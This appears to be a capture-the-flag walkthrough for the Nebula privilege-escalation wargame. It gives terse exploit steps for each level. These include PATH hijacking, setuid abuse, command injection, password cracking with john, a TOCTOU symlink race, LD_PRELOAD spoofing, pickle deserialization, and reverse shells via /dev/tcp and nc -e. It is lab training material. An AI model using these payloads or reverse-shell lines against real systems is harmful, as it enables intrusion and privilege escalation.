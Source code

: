 ## Level01
* PATH=/tmp/:$PATH
* create a echo.c in /tmp
```
echo.c
#include<stdio.h>
#include<stdlib.h>

int main(){
    system("/bin/bash");
}

cc echo.c -o echo
```

## Level02
* export USER=";/bin/bash;"

## Level03
* create a `exploit.c` file (just copy from level01) in `/tmp`
* write a `run.sh` in `/home/flag03/writable.d`
```
run.sh
cc /tmp/exploit.c -o /home/flag03/exploit
chmod +s /home/flag03/exploit
```

## Level04
* ln -s /home/flag04/token /tmp/exploit
* ./flag04 /tmp/exploit

## Level05
* tar -xvzf /home/flag05/.backup/backup-19072011.tgz -C /tmp
* cd /tmp && ssh -i .ssh/id_rsa flag05@localhost

## Level06
* in `/etc/passwd` there is `flag06:ueqwOCnSGdsuM:993:993::/home/flag06:/bin/sh`
* save to to a file `crack.txt`
* `john crack.txt --show`
* result: flag06:hello:993:993::/home/flag06:/bin/sh

## Level07
* cd /tmp && wget http://localhost:7007/index.cgi?Host=%3Bgetflag
* cat index.cgi?Host=;getflag 

## Level08
* read the `capture.pcap` file, follow the TCP stream
* as `7f` is `del` thus we can get the password is `backd00Rmate`

## Level09
* check the php version `php -v` is 5.3.6
* so `preg_replace` function still vulnerable to "Pattern Modifiers"
* create a `/tmp/exploit.txt`
```
/tmp/exploit.txt
[email {${system(sh)}}]
```
* `./flag05 /tmp/exploit.txt`

## Level10
* I just know that I can use ssh to connect to box using ssh
* TOCTOU (Time of check, Time of use) 
* so here we can using the `/home/flag10/flag10` to send a file to a server port `18211` 
* `flag10` will first check if the file is readable and later sent the file to server
* so we just need fast enough to switch the file fast enough
* `echo "wrong token“ > /tmp/token`
* `while true; do ln -fs /tmp/token ~/token; ln -fs /home/flag10/token ~/token; done`
* `while true; do nc -lnp 18211; done` I did this on my local kali
* `while true; do /home/flag10/flag10 ~/token <ip>`

## Level11

## Level12
* hash function `io.popen` run shell
* `tenlet 127.0.0.1 50001`
* `Password: 1;bash -i >& /dev/tcp/[reverse ip]/[reverse port] 0>&1;echo 1`

## Level13
---
* gdb ./flag13
* break just before the cmp
* set $eax=0x3e8
* then we get token b705702b-76a8-42b0-8844-3adabbe5ac58

---
* create a fake uid file
```
fakeuid.c
#include <unistd.h>
#include <sys/types.h>

#define FAKEUID 1000
uid_t getuid(void){
    return FAKEUID;
}

gcc fakeuid.c -fPIC -shared -o ~/libfakeuid.so
export LD_PRELOAD="/home/level13/libfakeuid.so"
```
* run coped flag13 in `~` directory

## Level14
* decrypt from token
* `8457c118-887c-4e40-a5a6-33a25353165`
* just try the `./flag14 -e` and recognize the difference between input and output(the ord difference)
* then `su flag14` and input that decrypted token

## Level16
* egrep injection(https://www.aldeid.com/wiki/WackoPicko/Command-Line-Injection)
* so we need inject the username

* here are some problems, as it is netcat-openbsd version so reverseshell `nc -e /bin/sh 127.0.0.1 9999` not work(and I still haven't find the solution)
* so reverse shell

* `echo "/bin/getflag > /tmp/bar" > /tmp/SHELL`
* `chmod +x /tmp/SHELL`
* x = urlencode ``/*/SHELL``

* `curl http://<ip>:1616/index.cgi?username=$x&password=foo`(curl is not installed on nebula)

## Level17
* this is `pickle.loads` injection
* `cat /tmp/foo`
```
cos
system
(S'getflag > /tmp/flag17'
tR.
```
* `nc localhost 10007 < foo`